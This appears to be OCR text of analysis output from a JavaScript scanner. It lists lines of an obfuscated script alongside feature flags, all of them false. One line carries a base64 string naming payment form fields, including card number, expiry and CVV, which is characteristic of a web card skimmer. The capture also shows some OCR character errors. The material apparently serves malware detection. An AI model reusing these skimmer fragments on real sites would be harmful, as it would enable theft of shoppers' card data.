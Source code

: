             suspicious_behavior: false,
        },
        JavaScriptModel {
            line_number: 26,
            line: "_0x3afa83++){_0x4bd8d1+='%'+('00'+_0x53193b[_0x3afa83]['charCodeAt'](0x0)[_
0x47fb3d(0xea)](0x10))[_0x47fb3d(0x109)](-0x2);",
            variable: false,
            function: false,
            const_kw: false,
            variable_name: "",
            function_name: "",
            const_name: "",
            hex_name: false,
            anonymous_function: false,
            fetch: false,
            xml_http_request: false,
            eval: false,
            exec_script: false,
            prevent_default: false,
            local_storage: false,
            atob: false,
            btoa: false,
            script_size: 10256,
            line_size: 122,
            flag: false,
            flag_reason: "",
            unusual_behavior: false,
            suspicious_behavior: false,
        },
        JavaScriptModel {
            line_number: 27,
            line: "}return decodeURIComponent(_0x4bd8d1);",
            variable: false,
            function: false,
            const_kw: false,
            variable_name: "",
            function_name: "",
            const_name: "",
            hex_name: false,
            anonymous_function: false,
            fetch: false,
            xml_http_request: false,
            eval: false,
            exec_script: false,
            prevent_default: false,
            local_storage: false,
            atob: false,
            btoa: false,
            script_size: 10256,
            line_size: 38,
            flag: false,
            flag_reason: "",
            unusual_behavior: false,
            suspicious_behavior: false,
        },
        JavaScriptModel {
            line_number: 28,
            line: "},xfkwf[_0x4d5ab1(0xf0)]=document,xfkwf['sfofx']='W1siaWQiLCAiaW5wdXQtcGF5b
WVudC1maXJzdG5hbWUiLCAwLCAiZiIsICJIb2xkZXIiXSwgWyJpZCIsICJpbnB1dC1wYXltZW50LWxhc3RuYW1lIiwgMCw
gImwiLCASG9sZGVyIl0sIFsiaWQiLCAiaW5wdXQtZmlyc3RuYW1lIiwgMCwgImYiLCAiSG9sZGVyIl0sIFsiaWQiLCAiaW
5wdXQtbGFzdG5hbWUiLCAwLCAibCIsICJIb2xkZXIXSwgWyJmaWVsZCIsICJpZnJhbWUiLCAwLCAibiIsICJOdW1iZXIiX
SwgWyJmaWVsZCIsICJpZnJhbWUiLCAwLCAibSIsICJEYXRlIl0sIFsiZmllbGQiLCAiaWZyYW1IiwgMCwgInkiLCAiRGF0
ZSJdLCBbImZpZWxkIiwgImlmcmFtZSIsIDAsICJjIiwgIkNWViJdLCBbImlkIiwgImlucHV0LWNjLW93bmVyIiwgMCwgIm
giLCAiSG9sZGVIl0sIFsiaWQiLCAiaW5wdXQtY2MtbnVtYmVyIiwgMCwgIm4iLCAiTnVtYmVyIl0sIFsiaWQiLCAiaW5wd